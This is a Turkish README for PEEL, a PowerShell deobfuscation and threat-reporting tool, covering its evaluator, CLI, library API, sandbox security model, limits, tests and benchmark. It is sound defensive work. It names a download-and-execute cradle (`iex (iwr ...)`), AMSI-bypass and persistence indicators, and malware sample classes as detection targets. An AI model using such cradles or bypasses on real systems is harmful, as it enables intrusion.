- IOC: URL, alan adı, IP, e-posta, Discord webhook, Telegram bot token ve chat id, paste/raw indirme adresleri, indirme sarmalları,
  AMSI atlatma kesitleri, kalıcılık izleri; platform ve belge alanları ayrıca zararsız olarak listelenir
- Ölçüler: önce ve sonra boyut ve okunabilirlik (0-100), katmanlar, turlar, geri almalar
- Türkçe ve İngilizce; JSON dışa aktarım (CLI'da düz metin sürümü de)

### Arayüz

- PowerShell vurgulamalı, katlamalı, mini haritalı, aramalı, yer imli ve satır notlu CodeMirror editörleri
- Birden çok sekme ve sekme grubu; dosya ya da klasörün tamamını açma veya sayfaya bırakma; gruptaki her dosyayı çözme
- Cihazda saklanan oturumlar (IndexedDB), JSON oturum içe/dışa aktarımı
- Kod, rapor, zaman çizelgesi ve fark görünümleri; okuma modu, odak modu, senkron kaydırma
- Komut paleti ve ayarlanabilir kısayollar
- Koyu, açık, yüksek kontrast ve sistem temaları; döteranopi, protanopi ve tritanopiye uygun renkler
- Türkçe ve İngilizce
- Mobil düzen, klavyeyle gezinme, ekran okuyucu etiketleri ve canlı bölgeler, içeriğe geç bağlantısı
- İlk ziyaretten sonra PWA olarak çevrimdışı çalışır (üretim derlemesi)

## Statik değerlendirici

[`src/core/eval.js`](src/core/eval.js) PowerShell'in yan etkisiz bir alt kümesi için değer hesaplar, başka hiçbir şey yapmaz:

- **Değerler:** dizgeler, sayılar, mantıksal değerler, `$null`, `[char]`, diziler, `byte[]`, karma tablolar, enum değerleri, yöntem grupları.
- **İşleçler:** `+ - * / %`, `-f` (hizalama ve `X`/`D` belirteçli bileşik biçimlendirme), `-join`, `-split`, `-replace` / `-creplace`
  (.NET yerine koyma sözdizimi), `-band -bor -bxor -shl -shr`, aralıklar, karşılaştırmalar, `-like`, `-contains`, `-in`, `-as`, negatif
  indeks ve indeks dizileriyle indeksleme, üye numaralandırma.
- **Dönüştürmeler:** `[string] [char] [int] [byte] [char[]] [byte[]] [int[]] [string[]] [type] [scriptblock] [regex] [IO.MemoryStream]` ve
  benzerleri, .NET yuvarlamasıyla.
- **Statik üyeler:** `[Convert]` (`FromBase64String`, `ToBase64String`, `ToInt16/32/64/Byte(x, taban)`, `ToChar`, `ToString`), `[string]`
  (`Join`, `Concat`, `Format`, `new`), `[char]`, `[Text.Encoding]` (UTF8, ASCII, Unicode, BigEndianUnicode, UTF32, Default,
  `GetEncoding`), `[regex]` (`RightToLeft` ile `Matches`, `Replace`, `Split`, `Escape`, `Unescape`), `[Runtime.InteropServices.Marshal]`
  (SecureString → BSTR → dizge), `[ScriptBlock]::Create`, bilinen değişkenler için `[Environment]::GetEnvironmentVariable`.
- **Nesneler:** `IO.MemoryStream`, `IO.Compression.DeflateStream`, `GZipStream`, `IO.StreamReader`, metin kodlamaları, SecureString,
  `PSCredential`, düzenli ifade eşleşmeleri.
- **Komutlar (yalnızca yan etkisizler):** `ForEach-Object`/`%`, `Where-Object`/`?`, `Out-String`, `Write-Output`,
  `Select-Object -First/-Last/-Skip`, `Sort-Object`, `ConvertTo-SecureString -Key` (tarayıcıda da çalışsın diye JavaScript'te yazılmış
  AES-CBC), yukarıdaki nesneler için `New-Object`, `Get-Variable`, `variable:` ve `env:` için `Get-Item` / `Get-ChildItem`, jokerli
  `Get-Command`.

Geri kalan her şey "statik değil" der ve ifade yazıldığı gibi kalır. `-match` değerlendirilmez (`$Matches`'e yazar); çok karakterli
`.Split('ab')` da değerlendirilmez, çünkü Windows PowerShell ile PowerShell 7 bunun anlamında anlaşamaz.

## Komut satırı

CLI aynı motoru kullanır. Node'da çözücü `node --permission` ile başlatılan bir alt süreçte, bekçinin arkasında çalışır.

```bash
node bin/peel-ps.js obfuscated.ps1 -o clean.ps1 --report report.json
cat obfuscated.ps1 | node bin/peel-ps.js - > clean.ps1
node bin/peel-ps.js samples/ --out-dir out --report out/report.json
node bin/peel-ps.js dropper.ps1 -r text
node bin/peel-ps.js dropper.ps1 --json --fail-on high
```

`npm link` ile genel kurup `node bin/peel-ps.js` yerine `peel-ps` kullanabilirsiniz.

| Seçenek | |
|---|---|
| `-o, --out <dosya>` | çözülmüş kodu dosyaya yaz (tek girdi; yoksa stdout) |
| `-d, --out-dir <dizin>` | çözülmüş dosyaları dizine yaz (dizin girdisi yapısını korur) |
| `-r, --report <hedef>` | `json` ya da `text` raporu kod yerine stdout'a yazar; başka değer dosya yoludur (`.txt` metin, diğerleri JSON; dizin girdisinde dizi) |
| `--json` | `--report json` ile aynı |
| `--only <geçiş,...>` | yalnızca bu geçişler (`launcher`, `ticks`, `layers`, `fold`, `names`, `unused`) |
| `--no-format` | çıktıyı biçimlendirme |
| `--timeout <sn>` | dosya başına süre bütçesi (varsayılan 30) |
| `--lang tr\|en` | rapor dili (varsayılan `tr`) |
| `--fail-on <düzey>` | tehdit düzeyi `low`, `medium`, `high` ya da `critical` eşiğine ulaşırsa çıkış kodu 4 (CI için) |
| `-q, --quiet` | ilerleme ve özet yazma |
| `-h, --help` | yardım |

Dizin girdisi `.ps1`, `.psm1` ve `.psd1` dosyaları için özyinelemeli gezilir. Girdiler 16 MB ile sınırlıdır. Çözülemeyen (ya da
ikili) dosyalar bayt bayt, çözülen kod UTF-8 olarak yazılır.

Çıkış kodları: `0` tamam, `1` hata, `2` kullanım hatası, `4` `--fail-on` eşiğine ulaşıldı (hatadan önceliklidir).

## Kütüphane

```bash
npm install github:LLCForge/Peel-PS
```

```js
import { readFile } from 'node:fs/promises';
import { peel, createSandbox } from 'peel-ps/src/index.js';

const sandbox = await createSandbox();
const { code, verified, partial, report } = await peel(await readFile('obfuscated.ps1'), { sandbox, lang: 'tr' });
console.log(code);              // okunur betik
console.log(verified);          // girdinin tamamı ayrıştırıldıysa ve her adım yeniden ayrıştırıldıysa true
console.log(report.threat);     // { score, level, classes: [{ id, title, evidence }] }
console.log(report.iocs.urls, report.iocs.cradles);
sandbox.close();
```

| Dışa aktarım | |
|---|---|
| `peel(input, options)` | çöz ve analiz et; `input` dizge ya da `Uint8Array` (UTF-8 ya da BOM'lu UTF-16). Hat sonucunu ve `report`'u döndürür |
| `deobfuscate(input, options)` | yalnızca hat: `{ code, verified, partial, stats, events, trace, ms }` |
| `analyze({ input, output, ... })` | hat sonuçlarından rapor kur |
| `createSandbox()` | yalıtılmış çözücü: çalıştığı yere göre izin modelli Node alt süreci ya da CSP'li Web Worker |
| `passes()` | sıralı geçiş listesi |

Seçenekler: `only` (geçiş kimlikleri), `signal` (`AbortSignal`), `onLog`, `onPass`, `onSnapshot`, `formatOutput` (varsayılan `true`),
`budget` (`{ ms, steps }`) ve `peel` için `lang`, `sandbox`, `timeoutMs`. `sandbox` verilmezse hat, bütçesiyle sınırlı olarak çağıran
süreçte çalışır.

Rapor biçimi [`src/core/analyze.js`](src/core/analyze.js) dosyasının başında belgelenmiştir.

## Nasıl çalışır?



Her geçiş sözdizimi ağacını okur ve metni konumlarla yeniden yazar; kapsam analizi her değişken okumasına o noktadaki değerini
verir; değerlendirici sabit ifadeleri değere çevirir. Hiçbir şey çalıştırılmaz. Tarayıcıda hattın tamamı bir Web Worker'da çalışır;
sayfa iş bitince günlüğü, geçiş durumlarını ve ara adımları yeniden oynatır.

| Klasör | İçerik |
|---|---|
| `src/passes/` | 6 geçiş |
| `src/core/` | ayrıştırıcı, değişken akışı, statik değerlendirici, kodlamalar (base64, metin kodlamaları, Deflate/GZip), SecureString için AES, biçimlendirici, hat, rapor derleme |
| `src/sandbox/` | yalıtılmış çözücü: bekçi, Node alt süreci ve Web Worker barındırıcıları |
| `src/report/` | tespit, tehdit analizi, davranış, IOC'ler, okunabilirlik, derlenmiş betik tanıma, özet |
| `src/ui/` | web arayüzü |
| `src/cli/`, `bin/` | CLI |
| `test/` | fixture'lar, birim testleri ve benchmark |
| `scripts/` | fixture üreteçleri |

## Güvenlik modeli

- **Betik hiçbir zaman çalıştırılmaz.** İşin içinde PowerShell çalışma zamanı yoktur. Ayrıştırma, analiz ve yeniden yazma metin
  üzerinde saf JavaScript'tir; değerlendirici yalnızca yan etkisiz işlemleri uygular ve bilinmeyen bir çağrı asla "denenmez".
- **Yine de yalıtım.** Güvenilmeyen girdi yine de ayrıştırıcı ve çözücü için bir saldırı yüzeyidir; bu yüzden tarayıcıda çözücü kendi
  İçerik Güvenliği Politikası (`default-src 'none'; script-src 'self'; connect-src 'self'`) olan bir Web Worker'da ve `fetch`,
  `XMLHttpRequest`, `WebSocket`, `EventSource`, `WebTransport`, `importScripts`, iç içe worker'lar, `caches`, `indexedDB`,
  `BroadcastChannel`, `eval`, `Function` kurucuları ve dizge zamanlayıcılarını kaldıran bir JavaScript kilidiyle çalışır. Durum çubuğu
  hangi katmanların etkin olduğunu gösterir; başlık veremeyen barındırmalar (GitHub Pages) yalnızca JavaScript kilidini alır ve durum
  çubuğu bunun için uyarır.
- **Node (CLI, `createSandbox` ile kütüphane).** Çözücü süreci `node --permission --max-old-space-size=1024` ile başlatılır ve yalnızca
  `src`, `node_modules` ve `package.json` okuyabilir; dosya yazma, alt süreç, worker ve ağ Node'un kendisi tarafından reddedilir. Test
  takımı bunu denetler.
- **Bekçi ve bütçeler.** Her dosyanın çözücü içinde bir süre ve adım bütçesi vardır; yine de kilitlenen worker ya da süreç, bütçe artı
  10 sn süre payından sonra öldürülüp yenisiyle değiştirilir. **Durdur** onu hemen öldürür. Açılan veri, dizge ve dizi boyutları, katman
  sayısı ve girdi boyutu sınırlıdır; iç içe niceleyicili düzenli ifadeler reddedilir.
- **Fixture'lar diskte kodludur.** Zararlı koda benzeyen test örnekleri, antivirüs yazılımları depoyu işaretlemesin diye XOR + base64
  kodlu (`.x`) saklanır ve yalnızca bellekte çözülür.

## Dürüst sınırlar

- **Yalnızca sabit olan geri gelir.** İçeriği bir indirmeye, kayıt defterine, dosyaya, kullanıcı girdisine, ortama, tarihe ya da
  betiğin dışındaki herhangi bir şeye bağlı katman olduğu gibi kalır. Bu bilinçlidir; `iex (iwr ...)`'nin açılmayıp raporlanmasının
  nedeni de budur.
- **Windows PowerShell 5.1 varsayımları.** Otomatik değişkenler 5.1 değerlerini alır (`$PSHome`, `$env:ComSpec`, `MaximumDriveCount`,
  Windows-1252 olarak `[Text.Encoding]::Default`). Tek başına `"$?"` betik başındaki gibi `True` sayılır. Yalnızca PowerShell 7'de
  çalışan bir betik farklı okunabilir.
- **Değerlendirici bir alt kümedir.** Kullanıcı işlevleri, döngüler, `-match`/`$Matches`, `switch` ve yukarıdaki listenin dışında .NET
  yoktur. Döngülerin, işlevlerin içinde ya da çözülemeyen bir `iex`'ten sonra hesaplanan değerler yayılmaz.
- **Ölü dallar kalır.** `if ($false) { ... }` silinmez.
- **Başlatıcılar komut satırı olarak okunur.** `cmd /c "... $env:X"` PowerShell dizgesi olarak değil, cmd/Windows argüman kurallarıyla
  yorumlanır; bu, süreç oluşturma kayıtları için doğru, böyle bir satırı kendisi kuran nadir betikler için yanlıştır.
- **Invoke-Obfuscation'ın kendisi benchmark'ta yok.** Örnekler PEEL'in Invoke-Obfuscation tarzındaki kendi üretecinden gelir (bkz.
  [Benchmark](#benchmark)); aracın gerçek çıktısı ayrıntılarda farklı olabilir.
- **Ayrıştırılamayan deyimler korunur, çözülmez.** Sonuç bu durumda doğrulanmamış olarak işaretlenir.
- **Derlenmiş betikler** (PS2EXE) yalnızca tanınır.
- **Günlük dili.** Hattın günlük satırları arayüz İngilizce olsa da Türkçe yazılır.

## Testler

```bash
npm test                            # 54 fixture tüm hattan, ardından 6 birim test dosyası
node test/run.js enc-bxor           # adında süzgeç geçen fixture'lar, günlük ve çıktısıyla
node test/run.js --powershell       # fixture'ları ayrıca yerel Windows PowerShell'de çalıştır
npm run fixtures                    # kodlu fixture'ları yeniden üret
```

Fixture, [`test/fixtures/`](test/fixtures) altında yönerge yorumları taşıyan bir `.ps1.x` dosyasıdır (diskte kodlu, bkz. yukarı):

```powershell
# EXPECT: Write-Output 'x'    çıktıda bulunmalı
# GONE: -join                 çıktıda bulunmamalı
# KEEP: iex $c                çıktıda kalmalı (dış girdiye bağlı koda dokunulmamalı)
# OUT: x                      betiğin yazdırdığı bir satır (--powershell ile denetlenir)
```

Fixture'lar her aileyi kapsar: TOKEN (ters tırnak, büyük/küçük harf, birleştirme, `-f`, üyeler, türler, `${}` değişkenler, sıçratma,
`Set-Variable`, `Get-Variable`, `Get-Item variable:`), STRING (birleştirme, yeniden sıralama, üç tür ters çevirme, split/join, `.Replace`,
`-creplace`, `[char[]]`), ENCODING (ASCII, onaltılık, sekizlik, ikilik, BXOR, `Marshal` ve `PSCredential` ile SecureString, yalnızca özel
karakterler, base64), COMPRESSION (Deflate, değişkenli GZip, `CopyTo`), LAUNCHER (`-Enc`, `-Command`, `cmd /c`, `%COMSPEC% ... start`,
stdin, `set` + `$env:`, iç içe), katmanlar (`| iex`, `ScriptBlock::Create`, `InvokeScript`, beş `iex` kılığı, iç içe üç katman, değer
bağlamı, işlev içinde) ve korunması gereken kod (uzaktan indirme, ortamın, `Read-Host`'un, bir parametrenin `iex`'i, döngüde değişen
değişkenler, çözülemeyen dinamik kod).

**Windows PowerShell 5.1'de ölçüldü:** `--powershell` ile, bir şey yazdıran 46 fixture çözmeden önce ve sonra Windows PowerShell
5.1.26100'de çalıştırıldı; gizlenmiş 46 girdinin ve çözülmüş 46 çıktının tamamı beklenen satırları birebir yazdı (54/54 fixture geçti,
42 sn). Kalan sekiz fixture ağ çağrısı, `Read-Host`, tanımsız bir ortam değişkeni ya da ayrı bir süreç başlatan bir komut satırı içerir
ve çalıştırılmaz.

Birim testleri ayrıştırıcıyı (20 000 terimli birleştirme ve ham metin olarak korunan 5 000 düzey iç içe yapı dahil), değerlendiriciyi,
kodlamaları, AES'i, biçimlendirmeyi ve imza denetimini, Windows argüman bölmeyi, bütçeleri ve katman sınırını, raporu (kodlu dropper,
AMSI atlatma, kalıcılık, ters kabuk, kimlik bilgisi hırsızı, silici, madenci ve PS2EXE örnekleri), CLI'ı, çevirileri, yalıtımı (çözücü
süreci dosya yazamaz, süreç başlatamaz, klasörleri dışını okuyamaz; bekçi kilitlenen motoru değiştirir) ve tarayıcı derlemesinin
örneğini, başlıklarını ve PWA dosyalarını kapsar. `npm test` yaklaşık 15 saniye sürer.

## Benchmark

```bash
npm run bench                       # tüm örnekler
node test/bench.js --powershell     # davranışı yerel Windows PowerShell'de de karşılaştır
node test/bench.js deflate          # adında süzgeç geçen örnekler
```

[`test/bench.js`](test/bench.js) her çalıştırmada bellekte 72 örnek üretir: üç zararsız yük (tek bir `Write-Output`; değişken, dizge
genişletme, `foreach` döngüsü ve boru hattı içeren kısa bir betik; aritmetik ve `-f` içeren türlü bir değişken), Invoke-Obfuscation
ailelerini izleyen 16 tekniğin her biriyle tek katman (birleştirme, `-f` yeniden sıralama, iki tür ters çevirme, `.Replace`, ASCII,
onaltılık, sekizlik, ikilik, BXOR, base64, Deflate, GZip, SecureString, rastgele harfli ters tırnaklar, `-EncodedCommand` başlatıcı; 48
örnek) ve sabit tohumla 2-4 tekniklik rastgele zincirler (24 örnek). Her katman kodunu rastgele seçilmiş bir `iex` kılığına verir. Çıktıda
hiçbir gizleme kalıbı kalmadıysa ve yükün komutları geri geldiyse örnek **açıldı**, Windows PowerShell gizlenmiş örnek ve PEEL çıktısı
için birebir aynı satırları yazdıysa **aynı davranış** sayılır.

`--powershell` ile art arda iki çalıştırma (Windows PowerShell 5.1.26100):

| Teknik | Açıldı | Aynı davranış |
|---|---|---|
| 16 tek katmanlı tekniğin her biri | 3/3 | 3/3 |
| rastgele zincirler (2-4 katman) | 24/24 | 24/24 |
| **Çalıştırma başına** | **72/72, 72/72** | **72/72, 72/72** |

Çözme örnek başına ortalama 5-6 ms, en fazla 33-42 ms sürdü; en büyük örnek (31 KB'lık BXOR → SecureString → ikilik zinciri) PowerShell
yanında çalışmıyorken yaklaşık 15 ms'de çözülür. Bu örnekler Invoke-Obfuscation'dan değil, PEEL'in kendi üretecinden gelir; her ailenin
ele alındığını ve çıktının davranışını koruduğunu gösterirler, aracın birebir çıktısına karşı bir ölçüm değildirler.

## Katkı

Issue ve pull request'ler memnuniyetle karşılanır. PEEL'in çözemediği bir betiğiniz varsa küçük ve zararsız bir sürümüyle issue
açın. Düzeltmeyi kanıtlayan bir fixture ekleyen pull request en hızlı birleştirilen yoldur.

## Lisans

[MIT](LICENSE). Ticari kullanım dahil özgürce kullanılabilir, değiştirilebilir ve dağıtılabilir. Ücretli sürüm, hesap ya da telemetri
yoktur.
